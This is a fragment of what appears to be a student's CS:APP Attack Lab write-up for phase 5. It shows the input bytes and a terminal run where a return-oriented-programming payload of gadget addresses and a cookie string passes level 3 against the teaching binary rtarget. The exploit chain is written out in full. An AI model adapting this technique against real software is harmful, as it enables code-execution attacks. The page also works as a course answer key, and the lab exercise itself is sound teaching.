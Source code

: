 ~~~
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61
~~~

#### 结果

~~~bash
lzy@DESKTOP-PS05SI3:~/csapp/attacklab/attacklab/target1$ ./hex2raw < phase5.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AD 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 
~~~


